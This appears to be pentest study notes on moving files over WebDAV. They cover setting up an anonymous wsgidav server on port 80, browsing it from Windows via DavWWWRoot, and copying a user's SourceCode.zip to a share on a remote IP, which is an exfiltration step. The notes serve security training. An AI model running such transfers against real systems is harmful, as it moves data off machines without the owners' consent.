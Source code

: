 An alternative is to run SMB over HTTP with `WebDav`. `WebDAV` [(RFC 4918)](https://datatracker.ietf.org/doc/html/rfc4918) is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other. The `WebDAV` protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring. `WebDAV` can also use HTTPS.

#### Configuring WebDav Server

To set up our WebDav server, we need to install two Python modules, `wsgidav` and `cheroot` (you can read more about this implementation here: [wsgidav github](https://github.com/mar10/wsgidav). After installing them, we run the `wsgidav` application in the target directory.

```shell-session
sudo pip3 install wsgidav cheroot
```

#### Using the WebDav Python module

```shell-session
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

#### Connecting to the Webdav Share

```cmd-session
dir \\192.168.49.128\DavWWWRoot
```


> [!NOTE]
> `DavWWWRoot` is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.
> 
> You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder

#### Uploading Files using SMB 

```cmd-session
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

```cmd-session
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```